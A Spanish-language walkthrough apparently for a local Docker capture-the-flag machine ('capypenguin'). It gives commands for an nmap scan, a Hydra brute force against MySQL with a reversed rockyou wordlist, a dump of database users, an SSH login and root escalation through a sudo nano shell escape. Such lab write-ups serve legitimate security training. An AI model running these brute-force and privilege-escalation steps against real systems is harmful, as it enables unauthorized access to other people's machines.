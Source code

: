 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh capypenguin.tar
```

![[Pasted image 20250203094357.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250203094438.png]]

Nos metemos en la web:

![[Pasted image 20250203094615.png]]

Invertimos el diccionario ya que con **Hydra** tarda mucho:

```Bash
tac /usr/share/wordlists/rockyou.txt >> invertido.txt
```

![[Pasted image 20250203094822.png]]

Quitamos los espacios en blanco:

```Bash
sed -i 's/ //g' invertido.txt
```

![[Pasted image 20250203094839.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -l capybarauser -P invertido.txt mysql://172.17.0.2
```

![[Pasted image 20250203105759.png]]

Nos conectamos con **MySQL**:

```Bash
mysql -h 172.17.0.2 -u capybarauser -pie168
```

![[Pasted image 20250203105948.png]]

```MySQL
SHOW databases;
```

![[Pasted image 20250203110027.png]]

```MySQL
USE pinguinasio_db;
```

![[Pasted image 20250203110129.png]]

```MySQL
SHOW tables;
```

![[Pasted image 20250203110206.png]]

```MySQL
SELECT * FROM users;
```

![[Pasted image 20250203110257.png]]

Nos conectamos con **SSH**:

```Bash
ssh mario@172.17.0.2
```

![[Pasted image 20250203110456.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250203110650.png]]

```Bash
sudo nano
```

![[Pasted image 20250203111033.png]]

![[Pasted image 20250203111422.png]]

```Bash
cntrl + r
```

![[Pasted image 20250203111435.png]]

```Bash
cntrl + x
```

![[Pasted image 20250203111054.png]]

```Bash
reset; bash 1>&0 2>&0
```

![[Pasted image 20250203111116.png]]

![[Pasted image 20250203111139.png]]

```Bash
cntrl + l
```

![[Pasted image 20250203111229.png]]

```Bash
whoami
```

![[Pasted image 20250203111255.png]]


